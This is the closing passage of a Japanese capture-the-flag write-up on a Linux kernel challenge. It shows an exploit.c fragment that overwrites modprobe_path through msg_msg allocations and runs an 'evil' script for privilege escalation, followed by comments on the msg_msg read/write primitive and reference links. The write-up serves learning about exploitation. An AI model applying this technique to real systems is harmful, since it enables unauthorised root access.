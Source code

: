 ```exploit.c
  // overwrite modprobe_path
  night_add(buf, 0, 0);
  puts("[+] allocating msg_msg on modprobe_path.");
  qid = msgget(IPC_PRIVATE, 0666 | IPC_CREAT);
  KMALLOC(qid, clean_msg80, 1);

  // invoke evil script
  puts("[!] invoking evil script...");
  system("/home/user/evil");

  // end of life
  puts("[ ] END of life...");
}
```


# アウトロ

![](https://i.imgur.com/494smWN.png)

`msg_msg`はread/writeに関して言えばかなり万能でいいですね。**とりわけ`msg_msgseg`と組み合わせることで、0x8 ~ 0x1000 bytes までの任意のサイズに対してread/writeができるのが強いです。**

この問題自体は、問題が少しわざとらしかったり、構造体にパディングが多くあからさまだったり、そして何よりソースコードの配布を「おっちょこちょい」で忘れてしまってたりと荒削りなところも合ったけど、`msg_msg`の汎用性の再確認ができる言い問題だったと思います。


次回、池の水全部飲んでみたでお会いしましょう。


続く。


# 参考 

msg_msg primitive
https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
other example of msg_msg
https://a13xp0p0v.github.io/2021/02/09/CVE-2021-26708.html
other writeup for this chall
https://www.willsroot.io/2021/10/pbctf-2021-nightclub-writeup-more-fun.html
other writeup for this chall
https://kileak.github.io/ctf/2021/pb21-nightclub/
useful structures
https://ptr-yudai.hatenablog.com/entry/2020/03/16/165628
ニルギリ
https://youtu.be/yvUvamhYPHw


